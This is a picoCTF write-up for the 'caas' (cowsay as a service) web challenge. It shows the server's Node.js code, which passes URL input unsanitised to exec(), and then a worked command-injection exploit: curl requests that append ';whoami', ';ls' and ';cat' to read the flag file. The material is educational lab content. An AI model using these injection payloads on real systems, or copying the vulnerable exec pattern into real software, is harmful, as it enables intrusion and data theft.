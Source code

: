 # caas

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 150
Tags: picoMini by redpwn, Web Exploitation
Author: BROWNIEINMOTION

Description:
Now presenting cowsay as a service

Hints:
(None)
```
Challenge link: [https://play.picoctf.org/practice/challenge/202](https://play.picoctf.org/practice/challenge/202)

## Solution

### Analyze the code

Let's start by browsing to the web site and see what we find.  
The following text is displayed
```
Cowsay as a Service

Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```

Let's also check the HTML source code. Press `CTRL + U ` or right-click anywhere on the background and select `View page source`
```html
<!doctype html>
<html>
    <head>
        <link rel="stylesheet" href="styles.css"/>
        <script src="index.js"></script>
        <title>CaaS</title>
    </head>
    <body>
        <h1>Cowsay as a Service</h1>
        <strong>Make a request to the following URL to cowsay your message:</strong>
        <br>
        <code></code>
    </body>
</html>
```

Nothing much to see there. But there is also a `index.js` script. Let's check that
```javascript
(async () => {
  await new Promise(r => window.addEventListener('load', r));
  document.querySelector('code').textContent =
    `${window.origin}/cowsay/{message}`;
})();
```

We were also given a `index.js` from the server side
```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

Ah, we can see that whatever message we send gets executed with `exec`.  
Maybe we can use command injection?

### Exploit the service

Let's first just use the service as intended with `curl`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl https://caas.mars.picoctf.net/cowsay/picoCTF
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Let's see if we can [inject code](https://en.wikipedia.org/wiki/Code_injection), in this case `whoami`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;whoami"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
node
```

Yes, we can! And we are running as the `node` user.

### Get the flag

Let's start looking for the flag with `ls`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;ls"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

There is a `falg.txt` file. Sneaky!

Let's try to read it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;cat falg.txt"
curl: (3) URL using bad/illegal format or missing URL
```

Ah, forgot to [URL encode](https://en.wikipedia.org/wiki/URL_encoding) the space (should be `%20`)
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;cat%20falg.txt"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

### References

- [Wikipedia - Command/code injection](https://en.wikipedia.org/wiki/Code_injection)
- [Wikipedia - URL encoding](https://en.wikipedia.org/wiki/Percent-encoding)

